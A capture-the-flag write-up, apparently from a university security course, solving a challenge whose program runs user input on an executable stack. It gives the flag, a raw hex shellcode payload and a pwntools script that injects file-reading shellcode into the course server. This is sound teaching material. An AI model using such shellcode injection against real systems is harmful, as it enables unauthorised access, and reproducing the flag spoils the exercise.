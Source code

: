misc-1 | simple
===========================

Flag: `6447{916709a2-490a-4ee1-b631-62452673a148}`

General overview of problems faced
-------------------------------------
Learned how to write and convert shellcode using pwntools

List of vulnerabilities
--------------------
1. The stack is executable
2. The program executes the code in your buffer by loading the buffer into eax and executing `call eax` which allows the user to input malicious code

Steps to exploit
------------------
1. Generate assembly code to read from file handler 1000 into esp and read 42 bytes of text
2. Generate assembly code to write to STDOUT (fh = 1) and write 42 bytes.
3. Convert the assembly code to hex. A valid payload is "\x31\xdb\x66\xbb\xe8\x03\x89\xe1\x6a\x2a\x5a\x6a\x03\x58\xcd\x80\x6a\x01\x5b\x89\xe1\x6a\x2a\x5a\x6a\x04\x58\xcd\x80"
4. Send the payload and receive the flag

Script/Command used
------------------
```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

# Flag: 6447{916709a2-490a-4ee1-b631-62452673a148}

from pwn import *

context.arch = 'i386'

r = remote("misc.6447.sec.edu.au", 8005)

payload = shellcraft.read(1000, 'esp', 42)
payload += shellcraft.write(1, 'esp', 42)

asm_payload = asm(payload)
r.sendline(asm_payload)

print "Flag:", r.recvrepeat(0.2).split()[-1]
```
